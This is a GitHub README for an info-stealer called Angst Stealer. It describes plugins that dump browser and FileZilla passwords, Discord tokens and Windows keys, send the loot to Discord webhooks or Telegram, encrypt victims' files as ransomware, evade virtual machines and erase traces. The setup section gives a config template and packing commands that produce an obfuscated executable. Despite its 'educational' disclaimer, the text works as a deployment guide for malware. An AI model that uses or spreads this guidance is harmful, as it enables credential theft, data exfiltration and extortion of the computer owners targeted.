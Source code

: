 ## Angst Stealer
AngstStealer is a PoC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purposes, please do not use misuse this tool. Angst Stealer currently has a total of 10 plugins.

### Demo
Here is a screenshot of what will be sent once it is ran.
<p align="left">
  <img src="https://files.doxbin.gg/G30dzDfE.png">
</p>
The reason why not windows activation key is included is due to it being run inside a virtual machine thats not activated.

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Ransomware | Encrypts all files on the victims computer, also drops a note. (INCOMPLETE?) |
| Discord | Dumps discord token for Chrome and Discord. |
| Send_Discord | Zips and sends all the files through the Discord webhook. |
| Send_Telegram | Zips and sends all the files to a specified Telegram channel. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |
| Cleanup | Cleans up all traces of Angst |
| AntiVM | Tries to detect if a user is on a virtual machine |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/Phew/angst-rewrite/` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```json
CONFIG = {
    "webhook" : "",
    "chrome" : True,
    "filezilla":True,
    "userdata":True,
    "discord":True,
    "send_discord": False,
    "send_telegram": True,
    "telegram_token": "",
    "telegram_chat_id": "",
    "ransomware" : {
        "enabled" : False,
        "target_dir" : "C:\\Users\\", 
        "extenstion" : ".angst",
        "btcAddy" : "",
        "email" : "charge@d0xbin.org"
    }
}
```
webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
userdata -> Give information about your victim </br>
discord -> Steal discord tokens</br>
send_discord -> Option to send to Discord Webhook<br>
send_telegram -> Option to send to a Telegram Channel<br>
telegram_token -> Token for Telegram Bot that sends files<br>
telegram_chat_id -> The Chat ID for where you want the bot to send these files<br>
ransomware -> If enabled is set to `True` then have enabled the ransomware module. The target_dir is the directory in which you want it to encrypt. The ransomware extenstion setting just sets the output file extenstion, in this case its just `.angst`. The btcAddy and email are just options which you can toss in to be included in the ransomware note. (INCOMPLETE).</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>


### To Do List
- [ ] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [X] Implement some anti-vm tricks.
- [ ] Add more plugins

If you would like to help with something, writing plugins for Angst would be a pretty big help.

### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
